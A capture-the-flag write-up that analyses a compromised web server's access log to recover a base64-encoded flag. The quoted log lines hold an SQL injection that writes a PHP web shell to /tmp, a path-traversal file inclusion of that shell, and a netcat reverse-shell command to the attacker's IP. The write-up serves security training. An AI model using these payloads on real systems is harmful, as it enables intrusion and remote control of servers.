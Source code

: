 Access Granted (20 points):
----

>Um dos nossos servidores foi invadido. Agora precisamos analisar os logs da nossa aplicação web pra descobrir qual a gravidade do ataque, e o que ele fez na máquina

"One of our servers has been invaded. Now we need to analyze the logs of our web app to find out whats the gravity of the attack, and what he did in the box."

Lets check the file:

```
root@debian:~/shellterlabs/acess_granted_20# file access.log
access.log: ASCII text, with very long lines
```

Looks like a plain text web server log with a lot of 404 responses, so lets filtrate a little:

```
root@debian:~/shellterlabs/acess_granted_20# cat access.log | grep -v "404"

172.16.59.236 - - [24/Feb/2017:11:37:51 -0500] "GET /shellter/login.php HTTP/1.1" 200 - "http://172.16.59.138/shellter/login.php" "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
172.16.59.236 - - [24/Feb/2017:11:47:15 -0500] "POST /shellter/login.php HTTP/1.1" 200 - "http://172.16.59.138/shellter/login.php" "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
172.16.59.236 - - [24/Feb/2017:11:47:35 -0500] "GET /shellter/index.php HTTP/1.1" 200 4584 "http://172.16.59.138/shellter/login.php" "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
172.16.59.236 - - [24/Feb/2017:11:48:13 -0500] "GET /shellter/security.php HTTP/1.1" 200 4104 "http://172.16.59.138/shellter/index.php" "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
172.16.59.236 - - [24/Feb/2017:11:48:14 -0500] "GET /shellter/security.php HTTP/1.1" 200 4104 "http://172.16.59.138/shellter/index.php" "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
172.16.59.236 - - [24/Feb/2017:11:50:20 -0500] "POST /shellter/security.php HTTP/1.1" 302 - "http://172.16.59.138/shellter/security.php" "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
172.16.59.236 - - [24/Feb/2017:11:51:25 -0500] "GET /shellter/security.php HTTP/1.1" 200 4187 "http://172.16.59.138/shellter/security.php" "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
172.16.59.236 - - [24/Feb/2017:11:52:11 -0500] "GET /shellter/forum/321/ HTTP/1.1" 200 4333 "http://172.16.59.138/shellter/security.php" "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
172.16.59.236 - - [24/Feb/2017:11:54:25 -0500] "GET /shellter/forum/321/ HTTP/1.1" 200 4333 "http://172.16.59.138/shellter/security.php" "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
172.16.59.236 - - [24/Feb/2017:11:54:32 -0500] "GET /shellter/forum/321/?id=%25%27+and+1%3D0+union+select+null%2C+_utf8%22%3C%3Fphp+system%28%24_GET%5B%27cmd%27%5D%29%3B+%3F%3E%22+INTO+DUMPFILE+%22%2Ftmp%2Fshell%22+%23&Submit=Submit HTTP/1.1" 200 5221 "http://172.16.59.138/shellter/forum/321/" "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
172.16.59.236 - - [24/Feb/2017:11:54:44 -0500] "GET /shellter/forum/321/?id=%25%27+and+1%3D0+union+select+null%2C+_utf8%22%3C%3Fphp+system%28%24_GET%5B%27cmd%27%5D%29%3B+%3F%3E%22+INTO+DUMPFILE+%22%2Ftmp%2Fshell%22+%23&Submit=Submit HTTP/1.1" 200 43 "http://172.16.59.138/shellter/forum/321/" "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
172.16.59.236 - - [24/Feb/2017:11:55:39 -0500] "GET /shellter/ HTTP/1.1" 200 4497 "-" "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
172.16.59.236 - - [24/Feb/2017:11:57:02 -0500] "GET /shellter/forum/fi/?page=include.php HTTP/1.1" 200 4083 "http://172.16.59.138/shellter/" "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
172.16.59.236 - - [24/Feb/2017:11:57:32 -0500] "GET /shellter/forum/fi/?page=include.php HTTP/1.1" 200 4083 "http://172.16.59.138/shellter/" "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
172.16.59.236 - - [24/Feb/2017:11:58:41 -0500] "GET /shellter/forum/fi/?page=../../../../../../tmp/shell%00&cmd=nc%20172.16.59.236%20441%20-e%20/bin/bash%20echo%20%22c2hlbGx0ZXJ7MTRtaDRjazNyfQ==%22 HTTP/1.1" 200 4088 "-" "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"
172.16.59.236 - - [24/Feb/2017:12:38:03 -0300] "GET /shellter/icons/ HTTP/1.1" 403 502 "-" "Mozilla/5.0 (Windows NT 5.1; rv:31.0) Gecko/20100101 Firefox/31.0"
::1 - - [24/Feb/2017:12:38:38 -0300] "OPTIONS * HTTP/1.0" 200 125 "-" "Apache/2.4.7 (Ubuntu) PHP/5.5.9-1ubuntu4.20 (internal dummy connection)"

```
Some path transversal and sqli attemps, but the interesting thing is here:

>172.16.59.236 - - [24/Feb/2017:11:58:41 -0500] "GET /shellter/forum/fi/?page=../../../../../../tmp/shell%00&cmd=nc%20172.16.59.236%20441%20-e%20/bin/bash%20echo%20%22**c2hlbG>x0ZXJ7MTRtaDRjazNyfQ==**_%22 HTTP/1.1" 200 4088 "-" "Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0"

A base64 encoded string, lets decrypt:

```
root@debian:~/shellterlabs/acess_granted_20# echo "c2hlbGx0ZXJ7MTRtaDRjazNyfQ==" | base64 -d
shellter{14mh4ck3r}
```
